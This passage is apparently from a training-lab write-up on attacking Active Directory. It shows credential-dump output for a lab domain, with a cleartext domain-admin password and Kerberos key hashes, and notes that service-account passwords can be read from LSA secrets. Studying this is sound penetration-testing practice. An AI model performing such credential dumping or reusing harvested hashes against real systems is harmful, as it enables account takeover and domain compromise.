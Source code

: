 <figure><img src="../../.gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

We got credentials of svcadmin, a domain administrator. Remember that svcadmin is used as a service account (see "Session" in the above output), so you can even get credentials in clear-text from lsasecrets.

```powershell
Authentication Id : 0 ; 6198905 (00000000:005e9679)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/11/2025 4:24:00 AM
SID               : S-1-5-96-0-2

         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 4?PhChKP(?yWE8=VM2QI13O!i*3Q?WVB"X)=>Il3=AczJ0^T!X]r&:&yG41*/$^4+EeZ07?zF2Z3:[Jd*F/z_Pp6B9XH^g$*mXIQMXY(Sc?3\A6ICrX
         * Key List :
           aes256_hmac       c71f382ea61f80cab751aada32a477b7f9617f3b4a8628dc1c8757db5fdb5076
           aes128_hmac       b3b9f96ed137fb4c079dcfe2e23f7854
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754

Authentication Id : 0 ; 6155000 (00000000:005deaf8)
Session           : Interactive from 0
User Name         : mgmtadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:16:32 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1120

         * Username : mgmtadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       902129307ec94942b00c6b9d866c67a2376f596bc9bdcf5f85ea83176f97c3aa
           rc4_hmac_nt       95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old      95e2cd7ff77379e34c6e46265e75d754
           rc4_md4           95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_nt_exp   95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old_exp  95e2cd7ff77379e34c6e46265e75d754

Authentication Id : 0 ; 86511 (00000000:000151ef)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:52 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
           aes128_hmac       8c0a8695795df6c9a85c4fb588ad6cbd
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8
           rc4_md4           b38ff50264b74508085d82c69794a4d8
```